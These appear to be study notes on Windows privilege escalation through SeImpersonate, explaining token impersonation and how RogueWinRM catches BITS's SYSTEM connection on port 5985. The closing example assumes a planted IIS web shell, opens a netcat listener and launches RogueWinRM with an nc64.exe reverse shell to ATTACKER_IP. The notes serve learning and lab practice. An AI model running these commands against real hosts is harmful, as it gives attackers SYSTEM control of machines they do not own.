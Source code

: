 These privileges allow a process to ***impersonate other users and act on their behalf***. Impersonation usually consists of being ***able to spawn a process or thread*** under the security context of another user.

Impersonation allows services like an FTP server to act as individual users (e.g., Ann's account) instead of the service account (e.g., ftp account). 

Without impersonation, services need broad file access and must manage their own authorization, increasing complexity and risk. 
[[Pasted image 20250324171910.png]]

With `SeImpersonate` or `SeAssignPrimaryToken` privileges, ***services (e.g., ftp account) can use the access token of authenticated users***.
[[Pasted image 20250324171944.png]]

Attackers who compromise a service with these privileges can impersonate users connecting to it. Common accounts like `LOCAL SERVICE`, `NETWORK SERVICE`, and `iis apppool\defaultapppool` have these privileges by default.

To escalate privileges, attackers must:
- Spawn a process that users connect to.
- Trick privileged users into authenticating to it.

`RogueWinRM` achieves both by ***exploiting Windows BITS (Background Intelligent Transfer Service) service behaviour***: When BITS starts, it ***connects to port 5985 as SYSTEM***. If WinRM isn't running, ***attackers can run `RogueWinRM` on port 5985 to catch this connection*** and execute commands as SYSTEM using SeImpersonate privileges.
	Note: `BITS is a Windows service used to transfer files in the background, like downloading Windows updates or syncing files.`

**Example**
Let's assume, we've compromised a website running on IIS and that we have planted a web shell on the following address:
```
http://IP
```

Use the web shell to check for the privileges:
	`whoami /priv`

Start a netcat listener:
```
nc -nvlp 4444
```

User our web shell to trigger the `RogueWinRM` exploit:
```
c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4444"
```
